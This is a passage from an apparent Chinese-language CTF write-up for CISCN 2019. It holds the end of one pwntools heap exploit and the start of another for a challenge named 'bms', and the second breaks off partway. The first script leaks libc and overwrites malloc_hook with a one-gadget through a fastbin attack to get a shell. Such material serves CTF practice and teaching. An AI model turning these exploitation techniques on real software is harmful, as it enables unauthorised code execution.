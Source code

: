 ```
	free(3)	 
	show(4)

	if local:
		pass
	else:
		pass
		#p.recvuntil("Info index: ")
		#p.recvuntil("Info index: ")
	data = u64(p.recvuntil("\n",drop=True)+"\x00\x00")
	libc_base = data - 0x3c4b78
	malloc_hook = libc_base + 0x3c4b10
	one_shot = libc_base + 0xf02a4	
	print("malloc_hook = " + str(hex(malloc_hook)))
	print("one_shot = " + str(hex(one_shot)))
	free(1)
	free(2)
	edit(0,p64(malloc_hook - 19))
	
	create("4"*0x60)
	create("5"*0x60)
	payload = "a"*3 + p64(one_shot)
	payload = payload.ljust(0x60,"\x00")
	create(payload)
	create("icq0030af22ece42d03523c08138525f")
	
	p.interactive()
exp()
```

### bms
详细看我另外一篇blog：https://zoepla.github.io/2019/04/csicn2019%E5%9B%BD%E8%B5%9B-bms/


详细脚本如下：
环境：ubuntu18.04 libc2.27 

```
from pwn import *

context(os='linux',arch='amd64',aslr = 'False',log_level='debug')


#p = remote("90b826377a05d5e9508314e76f2f1e4e.kr-lab.com","40001")
p = process("./pwn")
elf = ELF('./pwn')
libc = elf.libc

def create(size,content,name):
    p.sendlineafter(">","1")
    p.sendafter("book name:",name)
    p.sendlineafter("description size:",str(size))
    p.sendafter("description:",content)

def create_null_puts(size,content,name):
    p.sendlineafter(">","1")
    p.send(name)
    sleep(0.01)
    p.sendline(str(size))
    sleep(0.01)
    p.send(content)
    sleep(0.01)
    
def free(idx):
```